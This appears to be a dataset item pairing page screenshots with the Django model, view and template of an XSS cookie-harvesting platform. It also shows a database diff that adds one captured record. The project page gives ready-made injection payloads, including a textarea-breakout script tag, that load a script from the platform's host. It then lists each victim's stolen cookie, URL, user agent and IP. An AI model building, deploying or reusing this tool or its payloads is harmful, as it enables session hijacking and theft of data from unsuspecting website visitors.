

Page /project/?id=2 (signed in) on the earlier database version (2 pictures, top to bottom).


Same page on the later database version (2 pictures, top to bottom).
### core/models.py (models this page shows, shortened)
class Record(models.Model):
    create_time = models.DateTimeField(auto_now_add=True)
    cookie = models.TextField(blank=True)
    user_agent = models.CharField(max_length=50, blank=True)
    ip = models.IPAddressField(blank=True)
    url = models.URLField(blank=True)
    title = models.CharField(max_length=50, blank=True)

### core/views.py (the view)
# urls.py: url(r'^project/$', 'core.views.project_detail', name="project_detail"),
@login_required(login_url="/login/")
def project_detail(request):
    project_id = request.GET.get("id", "-1")
    try:
        p = XssProject.objects.get(pk=int(project_id), user=request.user)
    except XssProject.DoesNotExist:
        raise Http404
    if "csrftoken" in request.COOKIES:
        token = request.COOKIES["csrftoken"]
    else:
        token = ""
    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL, "token": token})

### templates/core/project_detail.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <div class="project">
        <div class="project_description">
            <h3>{{ project.title }}</h3>
            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-trash"></span>
                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a>&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-asterisk"></span><a href="/project/settings/{{ project.id }}">Settings</a>
            </p>
            <hr/>
            <div class="instruction">
                <p>How to use?</p>
                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p>You can test your code <a href="/project/test/" target="_blank">here</a></p>
            </div>
        </div>
        <hr/>
        <div class="project_records">
            <div class="panel panel-default">
                <div class="panel-body">
                    {% if not project.records.all %}
                    <p>No cookies</p>
                    {% else %}
                        {% for record in project.records.all reversed %}
                            <div class="record">
                                <p>Record id:<span class="badge">{{ forloop.counter }}</span></p>
                                <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
                                <p>Title:<code>{{ record.title }}</code></p>
                                <p>Url:<code>{{ record.url }}</code></p>
                                <p>Cookie:
                                <code>{{ record.cookie }}</code></p>
                                <p>User agent:<code>{{ record.user_agent }}</code></p>
                                <p>ip:<code>{{ record.ip }}</code></p>
                                <hr/>
                            </div>
                        {% endfor %}
                    {% endif %}
                </div>
            </div>
        </div>
    </div>
</div>
{% endblock %}

Differences in the rows shown:
added Record: create_time "2014-04-29 20:03:20", url "http://127.0.0.1:8000/xss/?id=2", cookie "csrftoken=ugKhx6GIGvA7MqYkdDS3pmPTHbHInQsp", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"
